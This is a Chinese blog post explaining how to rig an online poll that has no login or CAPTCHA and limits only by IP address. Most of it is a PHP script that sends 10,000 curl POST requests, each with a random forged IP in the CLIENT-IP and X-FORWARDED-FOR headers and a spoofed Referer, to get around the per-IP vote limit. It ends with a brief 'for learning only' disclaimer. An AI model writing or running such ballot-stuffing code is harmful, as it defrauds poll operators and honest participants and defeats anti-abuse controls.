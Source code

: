 ```yaml
---
layout: post
title : 投票脚本
category : program
tags : [program,php]
---
```

{% include JB/setup %}

最近有个投票活动,我看到大部分人都是几百票,然而少数人却是几万票,这明显就是刷票的行为.于是就研究了一下如何刷票.

由于这个投票网站不需要登录,也没有验证码,只是限制了IP而已,所以实现起来比较简单.起初我想用java来写的.但是查了一下资料,进展不是很顺利.突然想起来以前包子在河畔上发过一个php投票脚本.于是找到了这个帖子,研究一了一下.发现curl真是个牛逼的东西.

好了,下面说一下思路.主要是需要知道下面2点:

	1 form的action地址
	2 需要提交的键值

下面是脚本代码:

```php
<?php
for($count = 0; $count < 10000; $count++) {
	//sleep(1)
	// 随机生成IP
	$ip = '';
	for($i = 0; $i < 4; $i++) {
	    $ip .= mt_rand(1,255);
	    if($i == 3) break;
	    $ip .= '.';
	}
	// 设置HTTP头部变量
	$h['CLIENT-IP'] = $ip;
	$h['X-FORWARDED-FOR'] = $ip;
	$header = array();  
	foreach($h as $k => $v ) {  
	    $header[] = $k .':' . $v;  
	}
	// 设置POST信息
	$postData = "这里为需要提交的键值";
	//初始化curl句柄
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "form的action地址");
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	// 伪造HTTP头部
	curl_setopt($ch, CURLOPT_HTTPHEADER , $header );
	curl_setopt($ch, CURLOPT_REFERER, "投票页面地址");
	//curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
	$out = curl_exec($ch);
	curl_close ($ch);
	echo $out.' '.$count.' '.$ip;
	echo "\n";
}
?>
```

以上代码仅供交流学习,不要乱用哈!
